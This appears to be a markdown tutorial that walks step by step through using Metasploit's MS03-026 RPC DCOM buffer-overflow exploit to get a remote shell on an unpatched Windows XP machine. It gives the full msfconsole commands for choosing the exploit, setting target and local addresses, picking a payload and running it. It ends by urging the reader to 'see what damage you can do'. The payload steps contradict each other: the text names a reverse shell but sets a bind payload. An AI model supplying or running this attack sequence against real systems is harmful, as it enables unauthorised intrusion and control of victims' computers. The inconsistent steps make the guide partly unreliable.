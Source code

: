# Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo -E service postgresql start && sudo -E msfdb init && sudo -E msfconsole;`

Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

![Image of the mfs terminal](images/634704378236167812.jpg)

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's `10.0.0.125`. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.125`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD windows/meterpreter/bind_tcp`

## Set LocalHost
Now that we've chosen the exploit and the payload, we need to tell Metasploit the IP address of our machine. In this example, our system has an IP address of `10.0.10.6`. Use the actual IP address of the system you using. Tools such as `sudo ifconfig` should help you find your IP Address. It should be in the format of `10.0.10.X`

`msf > set LHOST 10.0.10.6`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
This should open up a metaterpeter shell. 

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 
